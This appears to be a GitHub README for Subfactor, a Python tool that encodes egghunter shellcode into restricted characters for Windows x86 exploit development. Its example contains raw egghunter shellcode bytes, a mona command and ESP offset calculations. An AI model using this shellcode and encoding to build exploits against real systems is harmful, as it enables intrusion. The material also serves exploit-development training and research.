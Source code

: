 # Subfactor

Subfactor is a tool used in Windows x86 32-bit exploit development to encode an Egghunter using a set of known good characters. It uses the EAX register to perform the relative ESP calculation, as well as the arithmatic for decoding the egghunter.

## Usage

```bash
python subfactor [-h|-a] <32 bit hex egghunter> <offset from ESP>
```
```
[-h|-a] : hex or assembly output
<32 bit egghunter> : The egghunter you want to encode (!mona egghunter -t w00t) with quotes included
<offset from ESP> : Address you WANT ESP to point to - Address ESP IS pointing to
```

## Example

```
My egghunter is : "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

<32 bit egghunter> : "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

ESP is pointing to : 0x1034E1EA

I want ESP to point to : 0x1035FFEC

0x1035FFEC - 0x1034E1EA = 0x11E02

<offset from ESP> : "\x01\x1E\x02"

```

Therefore:

```bash
python subfactor -h "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7" "\x01\x1E\x02"
```

```




